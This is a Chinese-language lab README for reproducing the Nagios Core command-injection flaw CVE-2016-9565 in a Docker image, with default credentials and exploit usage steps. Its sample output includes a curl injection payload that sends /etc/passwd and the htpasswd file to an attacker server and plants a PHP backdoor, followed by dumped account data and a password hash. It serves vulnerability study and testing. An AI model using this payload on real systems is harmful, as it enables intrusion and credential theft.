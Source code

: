 ## Nagios Core < 4.2.2 代码执行漏洞（CVE-2016-9565）

### 漏洞信息

 * [Nagios Core < 4.2.2 Curl Command Injection/Code Execution](https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html)

Nagios 是一款监控IT基础设施的程序，近日安全研究人员 Dawid Golunski 发现在 Nagios Core 中存在一个代码执行漏洞：攻击者首先伪装成 RSS 订阅源，当受害应用获取 RSS 信息时攻击者将恶意构造的数据传给受害者，程序在处理过程中将恶意数据注入到了 curl 的命令中，进而代码执行。


### 漏洞分析

参考: [Nagios Core 代码执行漏洞（CVE-2016-9565）分析](http://paper.seebug.org/146/)

### 镜像信息

类型 | 用户名 | 密码
:-:|:-:|:-:
HTTP 基础认证 | nagiosadmin | admin
Web 路径 | /nagios/ | -
Web 物理路径 | /usr/local/nagios/share | -
PoC/Exp 路径 | /nagios/exp.php?url=http://xx.xxx.xxx.xx/ | -

### 获取环境:

1. 拉取镜像到本地

 ```
$ docker pull medicean/vulapps:n_nagios_1
 ```

2. 启动环境

 ```
$ docker run -d -p 8000:80 medicean/vulapps:n_nagios_1
 ```
 > `-p 8000:80` 前面的 8000 代表物理机的端口，可随意指定。 

访问: `http://127.0.0.1:8000/nagios/` 出现基础认证框则代表成功

### 使用与利用

#### Exp 使用

> 假定攻击者服务器 IP 地址为：2.2.2.2

1. 在攻击者服务器运行 nagios_cmd_injection.py

 ```
sudo python nagios_cmd_injection.py 2.2.2.3 9999
 ```

 > 2.2.2.3 是攻击者监听反弹 shell 的IP地址，可与RSS地址一样

2. 访问 http://xxxx/nagios/exp.php?url=http://2.2.2.2/

 输入 HTTP 基础认证的账号密码

 > exp.php 是验证漏洞时添加的，真实环境中不存在。注意最后一个 `/`

3. 在攻击者服务器看到如下输出即代表成功 

 ```
 ➜ sudo python nagios_cmd_injection.py 192.168.30.194 8080

 Nagios Core < 4.2.0 Curl Command Injection / Code Execution PoC Exploit
 CVE-2016-9565
 nagios_cmd_injection.py ver. 1.0

 [+] Generating SSL certificate for our python HTTPS web server

 [+] Starting the web server on ports 80 & 443

 [+] Web server ready for connection from Nagios (http://target-svr/nagios/rss-corefeed.php). Time for your dnsspoof magic... ;)

 [+] Received GET request from Nagios server (192.168.30.xxx) ! Sending redirect to inject our curl payload:

 -Fpasswd=@/etc/passwd -Fgroup=@/etc/group -Fhtauth=@/usr/local/nagios/etc/htpasswd.users --trace-ascii /usr/local/nagios/share/nagios-backdoor.php

 [+] Success, curl payload injected! Received data back from the Nagios server 192.168.30.xxx

 [*] Contents of /etc/passwd file from the target:

 root:x:0:0:root:/root:/bin/bash
 daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
 bin:x:2:2:bin:/bin:/usr/sbin/nologin
 www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
 backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
 nagios:x:999:999::/usr/local/nagios:

 [*] Contents of /usr/local/nagios/etc/htpasswd.users file:

 nagiosadmin:$apr1$c3z3k5K8$lk.GET0vWb.WWJidJt84o1
```

### 参考链接

* [Nagios Core < 4.2.2 Curl Command Injection/Code Execution](https://legalhackers.com/advisories/Nagios-Exploit-Command-Injection-CVE-2016-9565-2008-4796.html)
* [Nagios Core 代码执行漏洞（CVE-2016-9565）分析](http://paper.seebug.org/146/)
